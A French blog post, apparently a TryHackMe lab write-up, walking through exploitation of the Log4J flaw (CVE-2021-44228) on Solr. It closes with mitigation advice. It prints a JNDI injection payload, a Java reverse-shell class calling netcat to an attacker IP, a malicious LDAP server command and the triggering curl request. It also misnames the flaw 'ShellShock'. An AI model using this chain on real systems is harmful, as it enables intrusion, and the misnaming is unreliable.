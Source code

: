```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Diclaimer

# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille qui a mis les internet en ébullition ces derniers jours.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

Voici un bref récapitulatif de l'attaque : 

![draw (1)](https://user-images.githubusercontent.com/16634117/145877226-310dc164-e164-4cbb-9065-1027ad80f0d2.jpg)


# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque, je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça, il faut trouver un point d'injection. Le plus simple est de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url, mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injection de code ou pas.)

Pour identifier la vulnérabilité du système, j'injecte un paramètre GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)
_L'injection, avec un listener pour récupérer la connexion, permettant de vérifier la bonne exécution de la charge utile_

Une connexion s'effectue bien entre notre machine et le serveur, **ce dernier est donc vulnérable**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, mais, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de [JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux (possédé par l'attaquant) et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer une connexion shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

On utilise le software [Marshalsec](https://github.com/mbechler/marshalsec) qui permet de créer un serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut un serveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre payload fera l'affaire.

Pour récupérer le shell il faut ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la requête malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec le code compilé, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classique d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.

# Conclusion et réponse

Cette faille touche un grand nombre de système, et il y a de fortes chances que vos systèmes en fassent partie, pour vous les solutions sont les suivantes : 

* Mettre à jour Log4J,
* Désactiver le lookup JDNI.

Une liste non exhaustive des applications touchées est disponible ici : https://github.com/NCSC-NL/log4shell/blob/main/software/README.md



